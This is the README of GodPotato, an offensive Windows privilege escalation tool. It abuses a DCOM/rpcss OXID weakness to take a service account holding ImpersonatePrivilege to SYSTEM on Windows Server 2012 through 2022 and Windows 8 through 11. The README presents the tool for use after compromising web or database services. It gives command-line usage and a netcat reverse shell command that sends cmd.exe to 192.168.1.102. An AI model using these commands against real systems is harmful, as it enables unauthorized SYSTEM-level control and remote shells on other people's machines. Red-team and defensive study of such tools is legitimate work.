 # GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.



Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato



# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -clsid Required:False Clsid (default {4991d34b-80a1-4291-83b6-3328366b9097})
        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"


```


Use the program's built-in Clsid for privilege escalation and execute a simple command


```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)


Customize Clsid and execute commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"

```


![](images/2.png)


Execute reverse shell commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
# Thanks

zcgonvh
skay


# License

[Apache License 2.0](/LICENSE) 
